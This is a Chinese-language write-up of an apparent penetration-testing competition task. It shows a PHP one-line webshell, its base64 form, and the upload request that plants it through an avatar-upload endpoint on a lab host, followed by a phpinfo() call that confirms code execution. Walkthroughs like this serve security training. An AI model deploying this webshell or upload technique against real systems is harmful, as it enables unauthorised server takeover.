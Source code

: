 注册账号并登录：

![image-20221107161843762455-1669009275344716.png](img/典型企业生产环境渗透赛 Local.assets/d18bb9f7630cb273d19cc2e6ab0a3ee5.png)

![image-20221107165902980495-1669009276659043.png](img/典型企业生产环境渗透赛 Local.assets/3b09cf57912b86e13f828d7267d44eef.png)

使用一句话木马：

```
<?php $arr = [$_POST["cmd"],$_REQUEST["cmd"]];@assert($arr[mt_rand(0,1)]);?>
```

进行base64编码：

```
PD9waHAgJGFyciA9IFskX1BPU1RbImNtZCJdLCRfUkVRVUVTVFsiY21kIl1dO0Bhc3NlcnQoJGFyclttdF9yYW5kKDAsMSldKTs/Pg==
```

![image-20221107170046087919-1669009277865311.png](img/典型企业生产环境渗透赛 Local.assets/ea573c0620c0a203bda8120e4e58cd74.png)

在火狐浏览器上输入：

```
Load URL：

http://192.168.10.111:8888/index.php?s=member&c=account&m=upload

Post data：

tx=data:image/phtml;base64,PD9waHAgJGFyciA9IFskX1BPU1RbImNtZCJdLCRfUkVRVUVTVFsiY21kIl1dO0Bhc3NlcnQoJGFyclttdF9yYW5kKDAsMSldKTs/Pg==
```

![image-20221107170156506119-1669009279094087.png](img/典型企业生产环境渗透赛 Local.assets/dece7dbcf62bb9483a4e958d656deb12.png)

点击`execute`，显示如下说明写入成功：

![image-20221108153046437834-1669009280292152.png](img/典型企业生产环境渗透赛 Local.assets/e4fc69a1ceed91f74c7f3bd86377c114.png)

木马植入成功后访问其存在位置：

```
Load URL：

http://192.168.10.111:8888/uploadfile/member/X/0x0.phtml 

##X范围0~9，由于木马的目录是随机生成的，请依次尝试。

Post data：

cmd=phpinfo();
```

点击`execute`。

![image-20221108101244596030-1669009281529300.png](img/典型企业生产环境渗透赛 Local.assets/46af2ced63ead18d05188aa533642a10.png)
